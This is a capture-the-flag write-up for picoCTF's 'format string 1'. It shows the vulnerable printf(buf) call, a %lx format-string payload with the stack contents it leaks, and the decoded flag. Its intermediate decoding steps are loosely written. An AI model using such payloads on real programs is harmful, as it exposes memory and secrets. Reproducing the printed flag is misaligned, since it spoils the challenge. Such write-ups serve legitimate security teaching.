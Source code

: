# format string 1

Patrick and Sponge Bob were really happy with those orders you made for them, but now they're curious about the secret menu. Find it, and along the way, maybe you'll find something else of interest! Download the binary [here](https://artifacts.picoctf.net/c_mimas/44/format-string-1). Download the source [here](https://artifacts.picoctf.net/c_mimas/44/format-string-1.c).

Additional details will be available after launching your challenge instance.

-----

From the source code, we have three file existence checks for `secret-menu-item-1.txt`, `flag.txt`, and `secret-menu-item-2.txt`, so we have to create these in our current working directory to proceed.

Looking at the source code, there is a `printf` which repeats user-inputted data, making it vulnerable to format string attacks which expose the state of the stack.

```c
printf("Give me your order and I'll read it back to you:\n");
fflush(stdout);
scanf("%1024s", buf);
printf("Here's your order: ");
printf(buf);
printf("\n");
fflush(stdout);

printf("Bye!\n");
fflush(stdout);
```

As the contents of the three aforementioned files are read in to the stack with `fopen` and `fgets`, we can use `%lx` to pull raw bytes from the stack.

```
Give me your order and I'll read it back to you:
%lx,%lx,%lx,%lx,%lx,%lx,%lx,%lx,%lx,%lx,%lx,%lx,%lx,%lx,%lx,%lx,%lx,%lx
Here's your order: 402118,0,7aed125d8a00,0,ffb880,a347834,7ffc7eded1f0,7aed123c9e60,7aed125ee4d0,1,7ffc7eded2c0,0,0,7b4654436f636970,355f31346d316e34,3478345f33317937,31655f673431665f,7d383130386531,
Bye!
```

The last 5 hex numbers decode to `{FTCocip5_14m1n44x4_31y71e_g41f_}8108e1` which can be reversed due to endianness to get `1e8018}_f14g_e17y13_4x44n1m41_5picoCTF{`. The flag is therefore:

```
picoCTF{4n1m41_57y13_4x4_f14g_e11e8018}
```